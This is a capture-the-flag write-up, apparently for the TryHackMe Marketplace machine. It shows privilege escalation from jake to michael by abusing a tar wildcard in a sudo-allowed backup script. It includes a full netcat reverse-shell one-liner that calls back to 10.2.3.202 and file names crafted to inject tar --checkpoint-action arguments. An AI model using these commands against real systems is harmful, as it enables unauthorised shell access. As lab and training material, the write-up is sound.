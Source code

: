# Horizontal Privilege Escalation to michael
## Sudo -l
```console
jake@the-marketplace:~$ sudo -l
Matching Defaults entries for jake on the-marketplace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jake may run the following commands on the-marketplace:
    (michael) NOPASSWD: /opt/backups/backup.sh
```
Jake can run the /opt/backups/backup.sh as user michael.

### Content of backup.sh
```console
jake@the-marketplace:~$ cat /opt/backups/backup.sh 
#!/bin/bash
echo "Backing up files...";
tar cf /opt/backups/backup.tar *
```

And I found [this](https://www.hackingarticles.in/exploiting-wildcard-for-privilege-escalation/) amazing post explaining how to exploit the wildcard in tar for privilege escalation.

### Getting a reverse shell as michael
```console
jake@the-marketplace:~$ cd /opt/backups/
jake@the-marketplace:/opt/backups$ ls
backup.sh  backup.tar
jake@the-marketplace:/opt/backups$ echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.3.202 9001 >/tmp/f" > shell.sh
jake@the-marketplace:/opt/backups$ echo "" > "--checkpoint-action=exec=sh shell.sh"
jake@the-marketplace:/opt/backups$ echo "" > --checkpoint=1
```

### Listening on our box
```console
local@local:~/Documents/tryhackme/marketplace$ nc -nvlp 9001
Listening on [0.0.0.0] (family 2, port 9001)
Listening on 0.0.0.0 9001
```

### Running the script as michael
```console
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: /opt/backups/backup.tar: Cannot open: Permission denied
tar: Error is not recoverable: exiting now
```
It says permission denied. So lets change the file permissions of the backup.tar and shell.sh to 777.
```console
jake@the-marketplace:/opt/backups$ chmod 777 backup.tar shell.sh 
jake@the-marketplace:/opt/backups$ sudo -u michael /opt/backups/backup.sh 
Backing up files...
tar: backup.tar: file is the archive; not dumped
rm: cannot remove '/tmp/f': No such file or directory
```
And this time after running the script, we get a connection back.
```console
local@local:~/Documents/tryhackme/marketplace$ nc -nvlp 9001
Listening on [0.0.0.0] (family 2, port 9001)
Listening on 0.0.0.0 9001
```